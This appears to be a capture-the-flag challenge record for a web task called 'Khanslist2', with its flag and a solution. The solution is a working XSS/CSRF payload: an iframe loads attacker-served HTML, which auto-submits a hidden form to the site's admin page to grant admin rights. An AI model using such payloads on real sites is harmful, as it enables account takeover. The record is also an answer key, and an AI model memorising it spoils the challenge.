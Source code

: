 # RunCodeWeb

## Name: Khanslist2

### Category: Web

### Message:
```
Use/Create your account at <a target="_new" href="https://derp.runcode.ninja">Derp Runcode</a>.<br>
They upped their security a bit. But only a bit. Acquire ANOTHER admin account.
<br><br>
<a href="https://twitter.com/ohai_ninja" target="_blank">author: @ohai_ninja</a>
```

### Value: 30

### Max Attempts: 0

### Flag: 
```
derp{XSS_2_B_ADMIN_d3RpM13573R}
```

### Files:
[docker](xss-site-2)

### Solution:
```
Report to admin feature, regular admin does not have flag access. xss admin to edit your account to make you an admin and set safe_ip val appropriately:
<iframe src="http://10.0.16.2:8000/index.html"></iframe>
... ... then in served up index.html ... ...
<form name="xssform" action="http://127.0.0.1/admin.php?cat=users" method="post">
<input type="hidden" name="userid" value="2" />
<input type="hidden" name="email" value="bob@aol.com" />
<input type="hidden" name="admin" value="1" />
<input type="hidden" name="safe_ip" value="10.0.16.2" />
<input type="hidden" name="edit_user" />
</form>
<script>
document.xssform.submit();
</script>
```

